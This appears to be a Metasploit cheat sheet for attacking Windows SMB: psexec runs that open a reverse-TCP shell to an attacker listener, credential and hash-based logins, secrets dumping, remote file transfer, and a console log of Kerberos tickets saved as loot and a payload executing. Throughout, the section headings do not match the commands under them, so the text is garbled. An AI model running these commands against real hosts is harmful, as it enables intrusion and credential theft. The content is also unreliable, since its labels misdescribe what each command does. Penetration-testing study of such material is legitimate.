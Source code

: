 [Enumerate gpp files](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/smb/smb_enum_gpp.md) in a SMB share:
```
use exploit/windows/smb/psexec
run smb://user:pass8@192.168.123.13 lhost=192.168.123.1 lport=5000
```

### SMB Server
Create a mock SMB server which accepts credentials before returning `NT_STATUS_LOGON_FAILURE`. These hashes can then be cracked later:
```
use exploit/windows/smb/psexec
run smb://Administrator:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6@10.10.10.161 lhost=10.10.14.13 lport=5000
```

### SMB MS17-010
Checking for exploitability:
```
use auxiliary/gather/windows_secrets_dump
run smb://user:pass@192.168.123.6
```

As of 2021, Metasploit supports a single exploit module for which has the capability to target Windows 7, Windows 8.1, Windows 2012 R2, and Windows 10, full details within the [Metasploit Wrapup](https://www.rapid7.com/blog/post/2021/07/16/metasploit-wrap-up-121/):
```
use auxiliary/gather/windows_secrets_dump
run smb://Administrator:aad3b435b51404eeaad3b435b51404ee:15feae27e637cb98ffacdf0a840eeb4b@192.168.123.1
```

### SMB psexec
Running psexec against a remote host with credentials:
```
use auxiliary/admin/smb/download_file
run smb://a:p4$$w0rd@192.168.123.13/my_share/helloworld.txt
```

Running psexec with NTLM hashes:
```
use auxiliary/admin/smb/upload_file
echo "my file" > local_file.txt
run smb://a:p4$$w0rd@192.168.123.13/my_share/remote_file.txt lpath=./local_file.txt
```

### SMB Dumping
Dumping secrets with credentials:
```msf
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd smb::auth=kerberos domaincontrollerrhost=192.168.123.13 smb::rhostname=dc3.demo.local domain=demo.local

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.123.13:445 - Connecting to the server...
[*] 192.168.123.13:445 - Authenticating to 192.168.123.13:445|demo.local as user 'Administrator'...
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_474531.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_169149.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] 192.168.123.13:445 - Selecting PowerShell target
[*] 192.168.123.13:445 - Executing the payload...
```